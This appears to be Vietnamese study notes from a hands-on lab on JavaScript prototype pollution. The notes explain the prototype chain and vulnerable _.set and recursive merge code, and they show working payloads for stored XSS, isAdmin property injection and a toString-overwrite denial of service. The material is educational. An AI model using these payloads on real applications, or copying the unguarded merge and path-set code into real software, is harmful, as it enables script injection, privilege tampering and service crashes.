










# **Prototype Pollution**
## **1. Essential Recap**
### **Object**
Object như profile của tài khoản mạng xã hội, nó có các thuộc tính chung như `name`, `age`, `follower`:
```javascript
let user = {
  name: 'Ben S',
  age: 25,
  followers: 200,
  DoB: '1/1/1990'
};
```

Ta có thể test ở trong DevTool:



### **Classes**
Class như một bản thiết kế có sẵn những thuộc tính, ta có thể tạo các object một cách nhanh chóng và kế thừa những thuộc tính có sẵn này

```javascript
           // Class for User 
class UserProfile {
  constructor(name, age, followers, dob) {
    this.name = name;
    this.age = age;
    this.followers = followers;
    this.dob = dob; // Adding Date of Birth
  }
}

// Class for Content Creator Profile inheriting from User 
class ContentCreatorProfile extends UserProfile {
  constructor(name, age, followers, dob, content, posts) {
    super(name, age, followers, dob);
    this.content = content;
    this.posts = posts;
  }
}

// Creating instances of the classes
let regularUser = new UserProfile('Ben S', 25, 1000, '1/1/1990');
let contentCreator = new ContentCreatorProfile('Jane Smith', 30, 5000, '1/1/1990', 'Engaging Content', 50);
```

Trong ví dụ trên, class `ContentCreatorProfile` được kế thừa từ `UserProfile` và thêm thuộc tính `content` và `posts`

### **Prototype**
Trong JavaScript, mỗi object đều được liên kết với một object khác gọi là **prototype**. Các prototype nối tiếp nhau tạo thành **prototype chain**. Prototype đóng vai trò như một khuôn mẫu chứa các thuộc tính hoặc method dùng chung. Khi bạn tạo object bằng constructor function hoặc class, JavaScript tự động tạo liên kết giữa object đó và prototype tương ứng

```javascript
// Prototype for User 
let userPrototype = {
  greet: function() {
    return `Hello, ${this.name}!`;
  }
};

// User Constructor Function
function UserProfilePrototype(name, age, followers, dob) {
  let user = Object.create(userPrototype);
  user.name = name;
  user.age = age;
  user.followers = followers;
  user.dob = dob;
  return user;
}

// Creating an instance
let regularUser = UserProfilePrototype('Ben S', 25, 1000, '1/1/1990');

// Using the prototype method
console.log(regularUser.greet());        
```

Với ví dụ bên trên `userPrototype` là 1 object chứa 1 thuộc tính `greet` mà giá trị của nó là một hàm\
Sau đó nó được đặt làm `User.prototype` của object `user` bởi câu lện let `user = Object.create(userPrototype);`

Prototype chain là một chuỗi tìm kiếm thuộc tính/phương thức khi một object được gọi

```
user
 ↓
User.prototype
 ↓
Object.prototype
 ↓
null
```

`User.prototype` là những phương thức được định nghĩa riêng cho user object; còn `Object.prototype` là những phương thức được định nghĩa sẵn cho các object trong **JS**

### **Difference between Class and Prototype**
**Class**

```javascript
class User {
  constructor(name, age) {
    this.name = name;
    this.age = age;
  }

  greet() {
    return `Hello, ${this.name}`;
  }
}

let an = new User("An", 20);
```

**Prototype**
```javascript
let userPrototype = {
  greet() {
    return `Hello, ${this.name}`;
  }
};

let an = Object.create(userPrototype);

an.name = "An";
```

**Class** = cách viết có cấu trúc, giống “bản thiết kế”\
**Prototype** = cơ chế kế thừa thực sự bên dưới của JavaScript

Nhưng bản chất của **class** vẫn là hoạt động kế thừa dựa trên prototype bên dưới, ở ví dụ trên, method `greet` thực chất được đưa vào `User.prototype`

### **Inheritance**
JavaScript có `2` cách viết kế thừa:
1. Prototype-based inheritance: Object có thể kế thừa từ object khác thông qua prototype
2. Class-based inheritance: Class chỉ là cách viết dễ nhìn hơn



## **2. How it works**
**Prototype Pollution** là một lỗ hổng phát sinh khi kẻ tấn công thao túng **object prototype** tượng, ảnh hưởng đến tất cả các phiên bản của đối tượng đó. Trong JavaScript, nơi các nguyên mẫu tạo điều kiện thuận lợi cho việc kế thừa, kẻ tấn công có thể khai thác điều này để sửa đổi các thuộc tính dùng chung hoặc đưa hành vi độc hại vào các đối tượng

Ta có một ví dụ về profile của người dùng mạng xã hội 

```javascript
           // Base Prototype for Persons
let personPrototype = {
  introduce: function() {
    return `Hi, I'm ${this.name}.`;
  }
};

// Person Constructor Function
function Person(name) {
  let person = Object.create(personPrototype);
  person.name = name;
  return person;
}

// Creating an instance
let ben = Person('Ben');
```

Trong trường hợp này, ta `person` được kế thừa từ `personPrototype` tức là nó chọn `personPrototype` làm `user.prototype`

`__proto__` là một thuộc tính chứa `user.prototype` của object đó, trong trường hợp trên, khi ta gọi `person.__proto__` thì nó sẽ trả về object `personPrototype` 



Attacker có thể thực hiện chèn hành code độc hại bằng `__proto__`:

```javascript
ben.__proto__.introduce = function() {
  console.log("You've been hacked, I'm Bob");
};
```

Thay vì kết quả là `Hi, I'm Ben.` nó sẽ trở thành `You've been hacked, I'm Bob` bởi vì `introduce` đã bị attacker thực hiện ghi đè

```
ben.__proto__
= prototype cha của ben
= personPrototype
```

Lúc này `introduce` thực sự đã bị ghi đè, vì vậy tất cả những object nào dùng chung `personPrototype` đều in ra `You've been hacked`

## **3. Exploitation - XSS**
Các thuộc tính có thể bị lợi dụng để khai thác **Prototype Pollution** là `constructor` và `__proto__`

### **Golden Rule**
Quy tắc vàng để nhận biết **Prototype Pollution**:
Nếu attacker kiểm soát được **key/property path** khi app gán dữ liệu kiểu `object[x][y] = value`, thì attacker có thể chọn `x = "__proto__"` hoặc `x = "constructor"`, `y = "prototype"` để đi tới **prototype** và ghi thuộc tính vào đó

Nếu attacker kiểm soát được: `x` `y` `val`, thì có thể đặt `x = "__proto__"` `y = "isAdmin"` `val = true`, và khi đó câu lệnh trở thành:
```javascript
Person["__proto__"]["isAdmin"] = true;
```

tức là 

```javascript
Person.__proto__.isAdmin = true;
```

### **Few Important Functions**
- **Property Definition by Path**: kiểu function gán thuộc tính dựa trên đường dẫn, ví dụ:
```javascript
_.set(friend, input.path, input.value);
```

Nghĩa là: 
```
path  = vị trí muốn ghi dữ liệu
value = giá trị muốn ghi
```

```json
{
  "path": "reviews[0].content",
  "value": "hello"
}
```

Thì app hiểu là 

```javascript
friend.reviews[0].content = "hello";
```

Nguy hiểm là do `path` do user kiểm soát mà không kiểm tra kỹ, user có thể gửi path độc hại

- **Initial Object Structure**
App có 1 object người dùng:
```javascript
let friends = [
  {
    id: 1,
    name: "testuser",
    age: 25,
    country: "UK",
    reviews: [],
    albums: [{}],
    password: "xxx"
  }
];
````

App có thể dùng 

```javascript
_.set(friend, input.path, input.value);
```

để cập nhật dữ liệu profile

- **Input Received from User**
User bình thường muốn thêm review nên gửi payload

```json
{
  "path": "reviews[0].content",
  "value": "<script>alert('anycontent')</script>"
}
```

Ý nghĩa:

```javascript
reviews[0].content
= thêm content vào review đầu tiên
```

Nên app sẽ xử lý gần giống:
```javascript
friend.reviews[0].content = "<script>alert('anycontent')</script>";
```

Nếu nội dung này được hiển thị lại trên web mà không **escape/sanitize** thì có thể gây **XSS**

- **Resulting Object Structure**
Sau khi chạy:

```javascript
_.set(friend, "reviews[0].content", "<script>alert('anycontent')</script>");
```

object sẽ thành kiểu:

```javascript
let friends = [
  {
    id: 1,
    name: "testuser",
    age: 25,
    country: "UK",
    reviews: [
      {
        content: "<script>alert('anycontent')</script>"
      }
    ],
    albums: [{}],
    password: "xxx"
  }
];
```

Nghĩa là dữ liệu đã được thêm vào đúng path: `reviews[0].content`

---
### **Example**
Web có chức năng cập nhật review cho bạn bè, khi ta cập nhật, phần review của chúng ta được hiển thị lên trên bio của người dùng



Ta thử cập nhật một lần, web đã cập nhật lên trường `reviews`



Quan sát request trong Burp:



Ta thấy request có 2 trường là `friendId` và `reviewContent`\
Thực hiện quan sát code ở phía client

```html
               <form action="/submit-friend-review" method="post" class="mb-4">
        <h2 class="mb-3">Submit a Review</h2>
        <input type="hidden" name="friendId" value="1">
        <div class="form-group">
            <textarea class="form-control" name="reviewContent" placeholder="Write your review here"
                rows="3"></textarea>
        </div>
        <button type="submit" class="btn btn-primary">Submit Review</button>
    </form>
```

Ta thấy khi gửi request sẽ tự động gửi thêm giá trị ẩn là `friendId` giá trị là `1` do ta đang review cho người bạn có id là `1`\
Ta thực hiện quan sát cả code phía server:
```javascript
           let friends = [
  {
    id: 1,
    name: "Sabalenka",
    age: 25,
    country: "UK",
    reviews: [],
    albums: [{ name: "USA Trip", photos: "git.thm" }],
    password: "xxx",
  },
...
...
app.post("/submit-friend-review", (req, res) => {
  if (!req.session.user) {
    return res.redirect("/signin");
  }
  const { friendId, reviewContent } = req.body;
  const friend = friends.find((f) => f.id === parseInt(friendId));
  if (!friend) {
    return res.status(404).send("Friend not found");
  }
  try {
    const input = JSON.parse(reviewContent);
    _.set(friend, input.path, payload.value);
  } catch (e) { }
  res.redirect(`/friend/${friendId}`);
});
```

Ban đầu có một đối tượng `friends` gồm các thuộc tính `id`, `name`, `age`, `country`, `reviews`, `albums`, `password`

Tiếp theo, nếu người gửi thực hiện gửi request đến `/submit-friend-review`, nó sẽ thực hiện kiểm tra xem người dùng đã đăng nhập chưa, nếu chưa thì thực hiện điều hướng về `/signin`\
Tiếp theo sẽ lấy phần req.body gán cho `2` biến `friendId` và `reviewContent`; biến `friendId` sẽ được parse thành **int** và thực hiện tìm kiếm, nếu không có sẽ trả về `404`\
Nếu có thực hiện parse **JSON** biến `reviewContent`, sau đó dùng hàm `_set` để thực hiện cập nhật đối tượng `friend` với thuộc tính là `input.path` (*do người dùng truyền vào*) và giá trị là `payload.value` (*thực chất là `input.value`*)\
Hàm `_.set` hoạt động theo kiểu:

```javascript
_.set(object, path, value)
```

Ví dụ:

```javascript
let user = {};

_.set(user, "name", "An");

console.log(user);
```

Tương đương với việc dùng:

```javascript
user.name = "An";
```

Với Object lồng nhau thì phần lồng được đặt trong path:
```javascript
let user = {};

_.set(user, "profile.age", 20);

console.log(user);
```

Tương đương với: 
```javascript
user.profile = {};
user.profile.age = 20;
```

Đối chiếu lại ví dụ: ta muốn cập nhật tham số khác ngoài `reviews`, ta sẽ thay đổi giá trị của `reviewContent` thành 

```javascript
{"path": "age", "value": "<script>alert('Hacked')</script>"}
```


<br>


Đoạn này tương đương với

```javascript
_.set(friend, "age", "<script>alert('Hacked')</script>")
```

Và tương đương với
```javascript
friend.age = "<script>alert('Hacked')</script>"
```

Ta có thể thực hiện chèn thêm thuộc tính vào bằng cách

```javascript
friendId=1&reviewContent={"path": "isAdmin", "value": true}
```



## **4. Exploitation - Property Injection**

### Object Recursive Merge

Phần này nói về lỗi **Prototype Pollution** xảy ra khi ứng dụng dùng hàm `merge()` để gộp object nhưng không kiểm tra các key nguy hiểm như:

- `__proto__`
- `constructor`
- `prototype`

Ví dụ hàm merge:

```js
function merge(to, from) {
  for (let key in from) {
    if (typeof to[key] == "object" && typeof from[key] == "object") {
      merge(to[key], from[key]);
    } else {
      to[key] = from[key];
    }
  }
}
```

Hàm này hoạt động như sau:

```text
Lấy từng key trong object from
→ copy sang object to
→ nếu gặp object lồng nhau thì gọi merge tiếp
→ nếu không phải object thì gán trực tiếp
```

Ví dụ bình thường:

```js
merge(clonedAlbum, { name: "New Album" });
```

Kết quả:

```js
clonedAlbum.name = "New Album";
```

---

### Prototype Pollution qua `__proto__`

Nếu attacker gửi payload:

```json
{
  "__proto__": {
    "newProperty": "hacked"
  }
}
```

Thì hàm merge xử lý gần giống:

```js
merge(clonedAlbum["__proto__"], {
  newProperty: "hacked"
});
```

Mà:

```js
clonedAlbum["__proto__"]
```

chính là prototype của object, thường là:

```js
Object.prototype
```

Nên kết quả cuối cùng là:

```js
Object.prototype.newProperty = "hacked";
```

Đây chính là **Prototype Pollution**.

---

### Object Clone

Trong bài, chức năng **Clone Album** cho phép user chọn album cũ và nhập tên album mới.

Request gửi tới:

```http
POST /clone-album/:friendId
```

Body gồm:

```text
selectedAlbum = album cần clone
newAlbumName = tên album mới
```

Server xử lý:

```js
let clonedAlbum = { ...albumToClone };

const payload = JSON.parse(newAlbumName);
merge(clonedAlbum, payload);
```

Điểm nguy hiểm là:

```text
newAlbumName đáng lẽ chỉ là tên album,
nhưng server lại parse nó như JSON rồi merge vào object.
```

Nếu attacker nhập:

```json
{
  "__proto__": {
    "newProperty": "hacked"
  }
}
```

thì payload này được merge vào `clonedAlbum`, làm prototype bị thêm thuộc tính `newProperty`.

---

### Effect on Other Objects

Sau khi prototype bị pollution:

```js
Object.prototype.newProperty = "hacked";
```

các object khác cũng có thể truy cập được:

```js
friend.newProperty;
```

Dù `newProperty` không nằm trực tiếp trong object `friend`, JavaScript vẫn tìm lên prototype chain và lấy được giá trị đó.

Luồng tìm kiếm:

```text
friend
→ không có newProperty
→ tìm lên Object.prototype
→ thấy newProperty = "hacked"
```

---

### Observing the Change

Khi in object `friend`, có thể không thấy `newProperty` trực tiếp vì nó nằm trong prototype.

Nhưng nếu truy cập:

```js
friend.newProperty
```

thì kết quả là:

```text
hacked
```

---

### Rendering on Screen

Nếu template dùng vòng lặp:

```js
for (let key in friend) {
  ...
}
```

thì `for...in` có thể lặp cả những thuộc tính được kế thừa từ prototype.

Vì vậy thuộc tính:

```text
newProperty: hacked
```

có thể bị render ra màn hình, dù nó không phải thuộc tính trực tiếp của `friend`.

---

### Tóm tắt luồng

```text
1. User dùng chức năng Clone Album.

2. Server nhận newAlbumName.

3. Server parse newAlbumName bằng JSON.parse().

4. Server gọi merge(clonedAlbum, payload).

5. Payload có key __proto__.

6. Hàm merge đi vào clonedAlbum["__proto__"].

7. clonedAlbum["__proto__"] trỏ tới Object.prototype.

8. Object.prototype bị thêm:
   newProperty = "hacked"

9. Các object khác cũng đọc được:
   friend.newProperty

10. Nếu template dùng for...in,
    thuộc tính này có thể hiện ra màn hình.
```

---

### Câu cần nhớ

```text
Object Recursive Merge nguy hiểm khi user kiểm soát object đầu vào
và hàm merge không chặn các key đặc biệt như __proto__.

Thay vì chỉ sửa clonedAlbum,
attacker có thể đi vào prototype và sửa Object.prototype.

Kết quả là nhiều object khác cũng bị ảnh hưởng.
```

## **5. Exploitation - DoS**
Prototype Pollution không chỉ thêm property như newProperty.
Nó còn có thể ghi đè các method quan trọng có sẵn trong JavaScript.
Nếu ghi đè sai method, app có thể lỗi hoặc crash.

Ví dụ method quan trọng:

```js
Object.prototype.toString
Object.prototype.toLocaleString
```

Bình thường object nào cũng có thể dùng:
```javascript
let obj = {};

obj.toString();
obj.toLocaleString();
```

Vì các method này nằm trong `Object.prototype`\
Nếu attacker pollution prototype như sau:
```js
Object.prototype.toString = "hacked";
```

thì `toString` không còn là function nữa, mà thành `string`

Sau đó nếu app chạy:
```js
obj.toString();
```

JavaScript sẽ báo lỗi: `TypeError: obj.toString is not a function`
'

---
### **Example**
Thực hiện ghi đè hàm toString bằng payload clone Albums

```js
selectedAlbum=USA Trip&newAlbumName={"__proto__":{"toString":"test"}}
```



Kết quả là web bị lỗi hàm `toString`

Tương tự với hàm `toLocaleString`

## **6. Automating the Process**
Prototype Pollution khó nhận diện vì:
- Mỗi app xử lý object khác nhau.
- Lỗi thường nằm sâu trong code merge/set/clone.
- Không phải payload nào cũng tạo output rõ ràng.
- Có khi pollution thành công nhưng không thấy ngay trên giao diện.
- Cần hiểu prototype chain và đọc code kỹ.
- Tool tự động chỉ hỗ trợ, không thể bắt hết.

### **Một số tool hỗ trợ tìm Prototype Pollution**
- [NodeJsScan](https://github.com/ajinabraham/nodejsscan) là tool scan code tĩnh cho ứng dụng Node.js
- [Prototype Pollution Scanner](https://github.com/KathanP19/protoscan): tool chuyên scan code JavaScript để tìm các đoạn có khả năng bị Prototype Pollution\
Nó thường tập trung vào các chỗ:
```
object merge
object clone
set property by path
user-controlled key
```
- [PPFuzz](https://github.com/dwisiswant0/ppfuzz) là tool fuzzing

Nó thử gửi nhiều payload Prototype Pollution vào các input khác nhau, ví dụ: `{"__proto__":{"polluted":"yes"}}`
- Client-side detection by [BlackFan](https://github.com/BlackFan/client-side-prototype-pollution): Tool/tài liệu của BlackFan tập trung vào client-side Prototype Pollution, tức là lỗi xảy ra trong JavaScript chạy trên trình duyệt.\
Nó thường liên quan tới:
```
URL parameter
hash fragment
query string
client-side merge
DOM XSS gadget
```


        
